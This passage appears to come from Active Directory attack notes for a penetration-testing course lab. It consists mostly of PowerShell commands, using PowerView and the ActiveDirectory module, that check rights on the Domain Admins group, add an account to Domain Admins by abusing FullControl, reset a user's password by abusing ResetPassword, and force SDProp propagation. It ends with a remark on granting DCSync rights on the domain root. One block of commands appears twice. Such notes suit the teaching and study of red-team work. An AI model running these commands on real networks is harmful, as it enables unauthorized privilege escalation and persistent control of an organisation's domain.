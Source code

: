 **For pre-Server 2008 machines**:
```powershell
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

**Check the Domain Admins permission - PowerView as normal user**:
```powershell
Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student1"}
```

**Using ActiveDirectory Module**:
```powershell
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local').Access | ?{$_.IdentityReference -match 'student1'}
```

**Abusing FullControl using PowerView**:
```powershell
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose
```

**Using ActiveDirectory Module**:
```powershell
Add-ADGroupMember -Identity 'Domain Admins' -Members testda
```

**Abusing ResetPassword using PowerView**:
```powershell
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

**Using ActiveDirectory Module**:
```powershell
Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

**Abusing ResetPassword using PowerView**:
```powershell
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

**Using ActiveDirectory Module**:
```powershell
Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```


## ACLs - Rights Abuse


> With DA privileges, the ACL for the domain root can be modified to provide useful rights like **FullControl** or the ability to **run DCSync** for any user.
